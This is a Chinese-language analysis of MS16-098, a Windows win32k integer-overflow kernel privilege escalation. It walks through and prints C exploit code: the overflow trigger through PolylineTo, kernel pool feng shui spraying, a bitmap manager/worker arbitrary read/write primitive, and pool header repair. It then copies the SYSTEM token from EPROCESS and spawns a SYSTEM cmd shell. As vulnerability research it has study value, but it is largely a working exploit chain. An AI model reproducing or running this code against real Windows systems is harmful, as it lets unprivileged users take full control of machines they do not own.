


# MS16-098分析

## 0x1 Overview

漏洞关键为rax->ecx寄存器边界变化，造成整数溢出，需要写入很大数值的数据却只分配到了极小的pool，利用池溢出控制GDI objects，根据GDI objects的结构体可以得知在结构前部有指向数据区域的指针；那么借用两个object就可以完成arbitrary write：第一个object作为manager改写第二个object的指针指向，第二个object作为worker实现任意写，最终目的是窃取system token提升权限。在利用过程中需要利用内核池风水控制两个object的距离以及bypass内核函数的check。

## 0x2 Overflow Trigger


在分配函数调用之前，函数会检查[rbx+4]（rbx指向bFill的第一个参数 EPATHOBJ结构体）是否会大于14。如果大于14，那么就可以触发溢出。具体细节如下：

`lea     ecx, [rax+rax*2]`

相当于把rax乘3

`shl     ecx, 4`

接着左移了4位，注意这里是使用了长度为32位的寄存器。

那么我们可以构造：

> 0xffffffff / 3 = 0x55555555
>
> 0x100000002 / 3 = 0x55555556

当rax被传入0x55555556后，乘3得到0x100000002 ，左移4位结果为0x00000020（ecx）。rax的值存储的是PATH obj的points数目，该值可以通过多次调用`PolylineTo`函数控制，下面的代码可以触发一个只分配到50bytes内存的情况。

```C
//Create a Point array 
static POINT points[0x3fe01];
// Get Device context of desktop hwnd
HDC hdc = GetDC(NULL);
// Get a compatible Device Context to assign Bitmap to
HDC hMemDC = CreateCompatibleDC(hdc);
// Create Bitmap Object
HGDIOBJ bitmap = CreateBitmap(0x5a, 0x1f, 1, 32, NULL);
// Select the Bitmap into the Compatible DC
HGDIOBJ bitobj = (HGDIOBJ)SelectObject(hMemDC, bitmap);
//Begin path
BeginPath(hMemDC);
// Calling PolylineTo 0x156 times with PolylineTo points of size 0x3fe01.
for (int j = 0; j < 0x156; j++) {
	PolylineTo(hMemDC, points, 0x3FE01);
	}
}
// End the path
EndPath(hMemDC);
// Fill the path
FillPath(hMemDC);
```

通过调用`PolylineTo`0x3FE01次，创建0x3fe01个Points，有：

`0x156 * 0x3FE01 = 0x5555556`

需要注意的是，程序会在我们的创建的点中加入一个点，所以真正的Points数量为

`0x5555557 * 0x3 = 0x10000005`

`0x10000005 << 4 = 0x00000050`

在payload完成之后，程序只分配了50bytes的空间却想copy 0x5555557个Points，因为pool header的破坏，我们会得到一个BSoD，crash触发成功。

## 0x3 Kernel Pool FengShui

### Part I 理论

内核池风水是一种利用多种/重复分配、释放内存的方法让内存布局到达可利用的状态的技术。

本次漏洞利用内核池风水的目的是设计两个相邻的object，第一个object溢出第二个object，然后利用第二个object获得读写任意内存的能力。选择的object是Bitmap，pool tag为Gh05，分配在相同的Page Session Pool，可通过 `SetBitmapBits/GetBitmapBits`读写~~任意~~地址。

crash产生的原因上文已经提及，在bFill函数的结尾：被分配的object需要被释放，当一块内存被释放的时候，内核会检查相邻chunk的pool header，如果有损坏的话就会BSoD，因为我们溢出了相邻的页而且没有修复，所以在check的时候failed了。

bypass这个check的方法是使分配的object在每个页的尾部，这样就不会有在调用free()的时候被check下一个chunk的环节了。

还值得注意的是：

1. 每个页面的大小是0x1000bytes，任何更大的分配请求会被分配在`Large Kernel Pool`
2. 任何超过0x808的分配请求会被分配在页的开头。
3. 随后的分配请求会被分配在页的结尾。
4. 分配需要相同的`Pool Type`，在我们的这个例子中是`Paged Session Pool`
5. 分配Objects的时候经常会添加一个大小为0x10的header。如果我们想分配一个大小为0x50的Object，实际在页面上会占用0x60的大小。

拥有了以上知识，就可以利用内核池风水构造exp：

```c
void fungshuei() {
	HBITMAP bmp;

	// Allocating 5000 Bitmaps of size 0xf80 leaving 0x80 space at end of page.
	for (int k = 0; k < 5000; k++) {
		bmp = CreateBitmap(1670, 2, 1, 8, NULL); // 1670  = 0xf80 1685 = 0xf90 allocation size 0xfa0
		bitmaps[k] = bmp;
	}

	HACCEL hAccel, hAccel2;
	LPACCEL lpAccel;
	// Initial setup for pool fengshui.  
	lpAccel = (LPACCEL)malloc(sizeof(ACCEL));
	SecureZeroMemory(lpAccel, sizeof(ACCEL));
 	
	// Allocating  7000 accelerator tables of size 0x40 0x40 *2 = 0x80 filling in the space at end of page.
	HACCEL *pAccels = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
	HACCEL *pAccels2 = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
	for (INT i = 0; i < 7000; i++) {
		hAccel = CreateAcceleratorTableA(lpAccel, 1);
		hAccel2 = CreateAcceleratorTableW(lpAccel, 1);
		pAccels[i] = hAccel;
		pAccels2[i] = hAccel2;
	}

	// Delete the allocated bitmaps to free space at beginning of pages
	for (int k = 0; k < 5000; k++) {
		DeleteObject(bitmaps[k]);
	}

	//allocate Gh04 5000 region objects of size 0xbc0 which will reuse the free-ed bitmaps memory.
	for (int k = 0; k < 5000; k++) {
		CreateEllipticRgn(0x79, 0x79, 1, 1); //size = 0xbc0
	}

	// Allocate Gh05 5000 bitmaps which would be adjacent to the Gh04 objects previously allocated
	for (int k = 0; k < 5000; k++) {
		bmp = CreateBitmap(0x52, 1, 1, 32, NULL); //size  = 3c0
		bitmaps[k] = bmp;
	}

	// Allocate 1700 clipboard objects of size 0x60 to fill any free memory locations of size 0x60
	for (int k = 0; k < 1700; k++) { //1500
		AllocateClipBoard2(0x30);
	}

	// delete 2000 of the allocated accelerator tables to make holes at the end of the page in our spray.
	for (int k = 2000; k < 4000; k++) {
		DestroyAcceleratorTable(pAccels[k]);
		DestroyAcceleratorTable(pAccels2[k]);
	}
}
```

用GIF图表示会更清晰易懂：


上述代码经过多次`allocation/de-allocation`和精心设计的参数大小，使内存池达到了预想状态，下面来分别解析：

### Part II Code

#### Step 1

```C
HBITMAP bmp;

        // Allocating 5000 Bitmaps of size 0xf80 leaving 0x80 space at end of page.
        for (int k = 0; k < 5000; k++) {
                bmp = CreateBitmap(1670, 2, 1, 8, NULL); 
                bitmaps[k] = bmp;
        }
```

这段代码会在新的内存页上各分配0xf80大小的Bitmap，剩余0x80大小在页结尾。检查是否spray成功，可在bFill函数内的PALLOCMEM2处下断点，然后`!poolused 0x8 Gh?5`。值得注意的是如何计算CreateBitmap转换成Bitmap Objects的大小，最直接的方法就是预估+`!poolfind`来确定了。


#### Step 2

```C
   // Allocating 7000 accelerator tables of size 0x40 0x40 *2 = 0x80 filling in the space at end of page.
        HACCEL *pAccels = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
        HACCEL *pAccels2 = (HACCEL *)malloc(sizeof(HACCEL) * 7000);
        for (INT i = 0; i < 7000; i++) {
                hAccel = CreateAcceleratorTableA(lpAccel, 1);
                hAccel2 = CreateAcceleratorTableW(lpAccel, 1);
                pAccels[i] = hAccel;
                pAccels2[i] = hAccel2;
        }
```

然后，分配7000个`accelerator table objects(Usac)`，每个Usac的大小为0x40。所以申请2个大小就是0x80，这样结合之前的分配，会把整个页面填充满。(0xf80+0x80=0x1000)

#### Step 3

```C
  // Delete the allocated bitmaps to free space at beginning of pages
        for (int k = 0; k < 5000; k++) {
                DeleteObject(bitmaps[k]);
        }
```

释放每个页上之前分配大小为0xf80的object。

#### Step 4

```C
 //allocate Gh04 5000 region objects of size 0xbc0 which will reuse the free-ed bitmaps memory.
        for (int k = 0; k < 5000; k++) {
                CreateEllipticRgn(0x79, 0x79, 1, 1); //size = 0xbc0
        }
```

分配5000个大小为0xbc0的`region objects`（Gh04），这个大小是必要的：如果bitmap直接和我们的`vuln object`相邻，溢出的时候就会无法覆盖到我们想要的结构体成员。可以用`GetBitmapBits/SetBitmapBits`来实现`bitmap object`的内存读写。同样计算大小可以通过` CreateEllipticRgn`函数进行试错。

此时，每个页面上的内存布局如下：

> 0xbc0 Gh04 Object |0x3c0 free space | 0x80 Gh04 Object

#### Step 5 

```C
   // Allocate Gh05 5000 bitmaps which would be adjacent to the Gh04 objects previously allocated
        for (int k = 0; k < 5000; k++) {
                bmp = CreateBitmap(0x52, 1, 1, 32, NULL); //size  = 3c0
                bitmaps[k] = bmp;
        }
```

5000个bitmap object填充了剩下的0x3c0的free区域。在之后的利用中，bitmap objects是我们控制溢出的目标。

#### Step 6

```C
    // Allocate 1700 clipboard objects of size 0x60 to fill any free memory locations of size 0x60
        for (int k = 0; k < 1700; k++) { //1500
                AllocateClipBoard2(0x30);
        }
```

### Part III

分配1700个大小为0x60的`Clipboard objects`（Uscb），去填充内存中可能存在大小为0x60的chunk，这样一来就可以让我们自己构造的object分配到构造好的内存中。

```C
void AllocateClipBoard(unsigned int size) {
	BYTE *buffer;
	buffer = malloc(size);
	memset(buffer, 0x41, size);
	buffer[size-1] = 0x00;
	const size_t len = size;
	HGLOBAL hMem = GlobalAlloc(GMEM_MOVEABLE, len);
	memcpy(GlobalLock(hMem), buffer, len);
	GlobalUnlock(hMem);
	OpenClipboard(wnd);
	EmptyClipboard();
	SetClipboardData(CF_TEXT, hMem);
	CloseClipboard();
        GlobalFree(hMem);
}
```

如果忽略了`OpenCliboard, CloseClipBboard, EmptyClipboard`只直接用`SetClipboardData/ EmptyCliBoard`，分配的object不会被free掉。

### Part IV

```C
  // delete 2000 of the allocated accelerator tables to make holes at the end of the page in our spray.
        for (int k = 2000; k < 4000; k++) {
                DestroyAcceleratorTable(pAccels[k]);
                DestroyAcceleratorTable(pAccels2[k]);
        }
```

最后一步的内核池风水目标是制造2000左右个空洞（释放掉已分配的`accelerator table objects (Usac)`）。构造内核池风水的函数在触发漏洞之后被调用，如果一切进展顺利那么在内存布局完成后，内存页的最结尾应该如下：


## 0x4 利用bitmap GDI objects

Bitmap Object结构：


> sizlBitmap：the width and height of the bitmap
>
> pvScan0：a pointer to the beginning of the bitmap data
>
> hdev：a pointer to the device handle.

利用bitmap objects的方式：覆写`sizlBitmap`,或`pvScan0 `。

`SetBitmapBits/GetBitmapBits`通过这上述两个结构体成员确定从哪里写入/读取数据量。

例如，GetBitmapBits将计算位图的`宽度 x 高度 x 4`(32位/像素（in bytes），作为CreateBitmap的参数提供)，以确认它可以从pvScan0所指向的地址读取的数据量。

如果成员`sizlBitmap`被一个更大的值覆写，那么他就会以覆写的值去读写对应的数据量。在这个漏洞利用样例中，`sizlBitmap`被覆写为 `width 0xFFFFFFFF x height 1 x 4 (32 bitsprepel)`。如果被溢出的数据可以利用，我们就可直接将成员`pvScan0`覆盖为我们想要的地址。具体	利用方法已经在overview中简略提到，利用两个Bitmap Objects:

1. 设置第一个Bitmap Object的pvScan0指向第二个Bitmap
2. 第一个object作为manager，目的是操控第二个object的pvScan0指向我们想要的地址
3. 第二个object作为worker，去实现内存的读写。

在本次漏洞利用中，用来池溢出的数据并不是完全掌控的，因为被copy的数据是点或更具体的边缘对象，大小为每个0x30字节。下一节的介绍中，一些被覆写的数据可以被间接地使用，用0x1或0xffffffff来覆盖成员`sizlBitmap`，用来提升读写的数据量，具体的trick如下：

1. 触发溢出并覆盖相邻`bitmap object`的`sizlBitmap`成员

2. 使用扩展的bitmap作为manager，来覆盖第二个bitmap的pvScan0成员。

3. 将第二个bitmap用作worker并使用它来读取/写入第一个bitmap所设置的地址。

   hdev成员的重要性将在下一节中详细讨论，主要要点是将其设置为0或指向有效设备对象的指针。

## 0x5 分析并控制溢出

下面应该分析如何可以控制我们溢出的部分。~~查阅资料得知points在不完全相同的时候才会被拷贝，进而构造溢出。~~分析`addEdgeToGet `函数，该函数用于向新分配的内存中copy points。通过逆向分析[r8+4]对应previous point，[r9+4]对应current point




然后，执行检查，检查前一个point.y是否小于[r9+0c]，在本例中是0x1f0，如果是这样，那么当前点将被复制到我们的缓冲区，如果不是要跳过的当前点。注意到point.y值略微向左移动了一点，即如果前一个点point.y = 0x20，值就是0x200。(?)


现在我们已经有了控制溢出的语句，我们需要找出如何复制值0x1和0xFFFFFFFF。


在第一次检查中，函数将current point.y(ebp)减去previous point.y(r10d)。如果结果是无符号的，它将复制值0xffffffff到 `rdx+28h`指向的位置。这里猜想是检查current point.y到previous point.y的方向。



在第二次检查中，对point.x也进行了同样的才检查。current point.x(ebx)减去了previous point.x(r8d)，如果结果是无符号的，函数将复制0x1到`r15+0x24`指向的位置。对于大小为0x30字节的点结构，它还将值1复制到`r15+0x24`所指向的对象的hdev成员。

计算溢出缓冲区以到达sizLBitmap成员的点的数量很容易，而且该漏洞实施的方式只是更改previous point.y变为更大的值，这将不会通过前面讨论的主检查，因此这些点将不会被复制，查看来自exp的代码片段。

```C
static POINT points[0x3fe01];
for (int l = 0; l < 0x3FE00; l++) {
	points[l].x = 0x5a1f;
	points[l].y = 0x5a1f;
}
points[2].y = 20; //0x14 < 0x1f
points[0x3FE00].x = 0x4a1f;
points[0x3FE00].y = 0x6a1f;
```

以上是初始化的points数组的方法，注意points[2].y被设置为20(0x14<0x1f)(?)，因此会拷贝后面的point到我们分配的buffer里。

```C
for (int j = 0; j < 0x156; j++) { if (j > 0x1F && points[2].y != 0x5a1f) {
		points[2].y = 0x5a1f;
	}
	if (!PolylineTo(hMemDC, points, 0x3FE01)) {
		fprintf(stderr, "[!] PolylineTo() Failed: %x\r\n", GetLastError());
	}
}
```

在调用PolyLineTo函数的循环中添加了一个check：检查循环的iteration是否大于0x1f，然后改变points[2].y的值，该值将会大于0x1f0，这就会使得check fail，后续的点不会被复制到我们的缓冲区。

这将有效地控制溢出：函数直到下一个相邻的bitmap object的成员sizlBitmap被覆盖为0x1或0xffffffff时才会溢出缓冲区（执行copy），有效地扩展了该bitmap object，允许我们读写bitmap object的原始边界。通过迭代循环，找出我们想要的bitmap的方法就是调用GetBitmapBits ，检查object大小是否大于我们池喷射时候设置的大小；若是则该object就是被溢出的object，让它成为manager，下一个bitmap object作为worker。代码如下：

```C
for (int k=0; k < 5000; k++) { res = GetBitmapBits(bitmaps[k], 0x1000, bits); if (res > 0x150) // if check succeeds we found our bitmap.
}
```

如果一切按照计划进展顺利的话，我们应该能够读写0x1000bits的内存。下图是溢出前后的bitmap object，注意header、成员sizLBitmap 和 hdev都被溢出了。


当漏洞利用继续进行，并执行检测哪个是易受攻击的bitmap的循环时，多次调用GetBitmapBits会导致崩溃。 崩溃发生在PDEVOBJ :: bAlowSharedAcces函数中。 在分析过程中，当尝试从地址0x0000000100000000（即上面覆盖的bitmap对象的hdev成员）中读取数据时，注意到该bitmap object通常在该成员中具有NULL或指向Gdev设备对象的指针 指向设备对象的指针。 函数win32k！GreGetBitmapBits将调用NEEDGRELOCK :: vLock，后者将依次调用PDEVOBJ :: bAllowSharedAccess。 查看NEEDGRELOCK :: vLock函数的反汇编，您会注意到该函数将仅使用PDEVOBJ来调用PDEVOBJ :: bAllowSharedAccess，如果结果返回零，则它将继续进行其他检查，而没有其他检查引用PDEVOBJ 。


此外，在GreGetBitmapBits中，该函数不检查NEEDGRELOCK :: vlock的返回值，执行后，PDEVOBJ :: bAllowSharedAccess将尝试在第一个功能块中读取该地址，如果读取的数据等于1，则 该函数将退出，代码为0，这是继续执行所需的代码。 这里的好处是，如果您查看被引用的地址，您会注意到该地址可以进入的存储位置在用户区域。


使用VirtualAlloc将内存分配给这个地址并将所有字节设置为1，将退出函数且不会产生错误，并使用GetBitmapBits检索bitmap data，而不会崩溃。

## 0x6 修复被溢出的头部

此时，漏洞利用程序能够读取和写入大小为0xFFFFFFFF * 1 * 4的相邻内存，该内存足以到达下一页中的第二个相邻的bitmap object，并覆盖pvScan0地址以获取 在内核内存上进行任意读/写。

当漏洞利用程序退出时，注意到在进程退出时有时会发生与池头相关的崩溃。 解决此问题的方法是使用GetBitmapbits，读取下一个区域的标头和未覆盖的位图对象，然后泄漏可在区域对象中找到的内核地址，

计算溢出区域对象的地址的方法是使泄漏地址的最低字节为零，这将为我们提供当前页面开头的地址，将第二个最低字节减去0x10，事实上从当前页面开头减去0x1000 ，等于前一页的起始地址。

```C
addr1[0x0] = 0;
int u = addr1[0x1];
u = u - 0x10;
addr1[1] = u;
```

接下来,被溢出的bitmap object(manager)地址已经被计算出，记住0xbc0大小的region object，所以在检索最后一步设置获取的地址的最低字节为0xc0，第二低字节加0xb，就会得到第二个bitmap object(worker)的地址。

```C
addr1[0] = 0xc0;
int y = addr1[1];
y = y + 0xb;
addr1[1] = y;
```

然后，manager bitmap object使用SetBitmapBits用region header的地址覆盖worker bitmap object的pvScan0成员。然后worker bitmap object 与SetBitmapBits一起使用，将这个地址指向的数据设置为第一步中读取的头数据;对溢出的bitmap object header执行同样的操作。

```C
void SetAddress(BYTE* address) {
	for (int i = 0; i < sizeof(address); i++) {
		bits[0xdf0 + i] = address[i];
	}
	SetBitmapBits(hManager, 0x1000, bits);
}

void WriteToAddress(BYTE* data) {
	SetBitmapBits(hWorker, sizeof(data), data);
}

SetAddress(addr1);
WriteToAddress(Gh05);
```

## 0x7 Stealing SYSTEM Process Token from the EPROCESS structure

进程首先获得PsInitialSystemProcess的内核地址，它是指向EPROCESS列表中的第一个条目的指针，该指针由ntoskrnl.exe导出。

```C
// Get base of ntoskrnl.exe
ULONG64 GetNTOsBase()
{
	ULONG64 Bases[0x1000];
	DWORD needed = 0;
	ULONG64 krnlbase = 0;
	if (EnumDeviceDrivers((LPVOID *)&Bases, sizeof(Bases), &needed)) {
		krnlbase = Bases[0];
	}
	return krnlbase;
}

// Get EPROCESS for System process
ULONG64 PsInitialSystemProcess()
{
	// load ntoskrnl.exe
	ULONG64 ntos = (ULONG64)LoadLibrary("ntoskrnl.exe");
	// get address of exported PsInitialSystemProcess variable
	ULONG64 addr = (ULONG64)GetProcAddress((HMODULE)ntos, "PsInitialSystemProcess");
	FreeLibrary((HMODULE)ntos);
	ULONG64 res = 0;
	ULONG64 ntOsBase = GetNTOsBase();
	// subtract addr from ntos to get PsInitialSystemProcess offset from base
	if (ntOsBase) {
		ReadFromAddress(addr - ntos + ntOsBase, (BYTE *)&res, sizeof(ULONG64));
	}
	return res;
}
```

函数PsInitalSystemProcess会将ntoskrnl.exe加载到内存中，并使用用户GetProcAddress获取导出的PsInitialSystemProcess的地址，然后它将通过使用EnumDeviceDrivers（）函数获取内核基址。 从加载的ntoskrnl.exe中减去PsInitialSystemProcess将导致PsInitalSystemProcess与内核库的偏移量，将此偏移量添加到检索到的内核库中将返回PsInitialSystemProcess指针的内核地址。

```C
LONG64 PsGetCurrentProcess()
{
	ULONG64 pEPROCESS = PsInitialSystemProcess();// get System EPROCESS
	 // walk ActiveProcessLinks until we find our Pid
	LIST_ENTRY ActiveProcessLinks;
	ReadFromAddress(pEPROCESS + gConfig.UniqueProcessIdOffset + sizeof(ULONG64), (BYTE *)&ActiveProcessLinks, sizeof(LIST_ENTRY));
	ULONG64 res = 0;
	while (TRUE) {
		ULONG64 UniqueProcessId = 0;
		// adjust EPROCESS pointer for next entry
		pEPROCESS = (ULONG64)(ActiveProcessLinks.Flink) - gConfig.UniqueProcessIdOffset - sizeof(ULONG64);
		// get pid
		ReadFromAddress(pEPROCESS + gConfig.UniqueProcessIdOffset, (BYTE *)&UniqueProcessId, sizeof(ULONG64));
		// is this our pid?
		if (GetCurrentProcessId() == UniqueProcessId) {
			res = pEPROCESS;
			break;
		}
		// get next entry
		ReadFromAddress(pEPROCESS + gConfig.UniqueProcessIdOffset + sizeof(ULONG64), (BYTE *)&ActiveProcessLinks, sizeof(LIST_ENTRY));
		// if next same as last, we reached the end
		if (pEPROCESS == (ULONG64)(ActiveProcessLinks.Flink) - gConfig.UniqueProcessIdOffset - sizeof(ULONG64))
			break;
	}
	return res;
}
```

然后，它将使用manager和worker bitmaps遍历EPROCESS列表以查找此列表中的当前进程条目，一旦找到，该函数将使用该位图从EPROCESS列表中的第一个条目读取SYSTEM令牌，并且 将其写入EPROCESS列表中当前流程条目的令牌。

```C
// get System EPROCESS
ULONG64 SystemEPROCESS = PsInitialSystemProcess();
//fprintf(stdout, "\r\n%x\r\n", SystemEPROCESS);
ULONG64 CurrentEPROCESS = PsGetCurrentProcess();
//fprintf(stdout, "\r\n%x\r\n", CurrentEPROCESS);
ULONG64 SystemToken = 0;
// read token from system process
ReadFromAddress(SystemEPROCESS + gConfig.TokenOffset, (BYTE *)&SystemToken, 0x8);
// write token to current process
ULONG64 CurProccessAddr = CurrentEPROCESS + gConfig.TokenOffset;
SetAddress((BYTE *)&CurProccessAddr);
WriteToAddress((BYTE *)&SystemToken);
// Done and done. We're System :)
```

## 0x8 SYSTEM！！

现在，当前进程具有SYSTEM级别的令牌，并且将继续以SYSTEM身份执行，调用cmd.exe将会进入SYSTEM shell。

```C
system("cmd.exe");
```

截图留念：

·


[code以及exp](https://github.com/sensepost/ms16-098)

# 后记：

1. 调试的时候遇到明明有符号地址却没有数据的情况，经过咨询发现是win32k.sys的特性，一定要UI程序用到，代码才会被加载到内核空间。
2. PatchGuard，，没有想到优美的解决方式
3. 内存泄露没法清理，为了更好的观察内存，只能依靠快照回滚。